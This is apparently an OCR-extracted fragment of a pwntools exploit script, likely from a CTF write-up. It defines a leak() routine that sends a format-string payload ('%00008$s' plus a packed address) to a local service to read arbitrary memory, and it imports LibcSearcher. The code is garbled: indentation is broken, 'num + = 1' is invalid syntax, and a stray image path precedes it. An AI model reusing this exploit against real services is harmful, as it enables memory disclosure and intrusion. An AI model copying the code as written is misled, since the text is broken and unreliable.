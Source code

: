```

The procedure is as follows.

```python

##coding=utf8

import math

from pwn import *

from LibcSearcher import LibcSearcher

##context.log_level = 'debug'

context.arch = 'amd64'

ip = "127.0.0.1"

port = 9999





def leak(addr):

    # leak addr for three times

num = 0
    while num < 3:

        try:

            print 'leak addr: ' + hex(addr)

            sh = remote(ip, port)

            payload = '%00008$s' + 'STARTEND' + p64(addr)

#说明有\n, a new line appears
            if '\x0a' in payload:

                return None

            sh.sendline(payload)

            data = sh.recvuntil('STARTEND', drop=True)

            sh.close()

            return data

        except Exception:

num + = 1
            continue

    return None




```